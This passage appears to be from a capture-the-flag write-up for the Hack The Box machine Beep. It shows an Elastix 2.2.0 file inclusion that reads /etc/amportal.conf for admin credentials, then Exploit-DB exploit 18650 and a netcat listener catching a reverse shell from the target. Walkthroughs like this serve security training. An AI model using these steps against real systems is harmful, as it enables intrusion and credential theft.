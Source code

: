 ###### `Elastix 2.2.0 - LFI to extract Admin Creds`
![](Beep_Web7.png)

The above file `/etc/amportal.conf` file reveals the admin credentials which allowed us to login to `https://10.10.10.7/`.
![](Beep_Web8.png)

###### `Locating Extension`
Under PBX --> Extension, We have one Extension
![](Beep_Web9.png)
###### `Elastix 2.2.0 - Remote Code Execution`
Another [Exploit-DB](https://www.exploit-db.com/exploits/18650) Exploit, Can be handy to grab a shell.
`# Exploit Title: FreePBX / Elastix pre-authenticated remote code execution exploit`
```
# python2 18650.py

# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.7] 48156
id
uid=100(asterisk) gid=101(asterisk)
```
